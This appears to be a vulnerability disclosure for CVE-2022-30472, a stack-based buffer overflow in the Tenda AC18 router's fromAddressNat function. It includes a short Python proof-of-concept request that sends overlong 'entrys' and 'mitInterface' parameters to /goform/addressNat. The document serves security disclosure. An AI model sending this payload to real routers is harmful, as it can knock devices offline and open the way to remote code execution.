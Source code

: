 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/addressNat` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromAddressNat`.

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```

## Timeline

* 2022-05-05: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30472)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
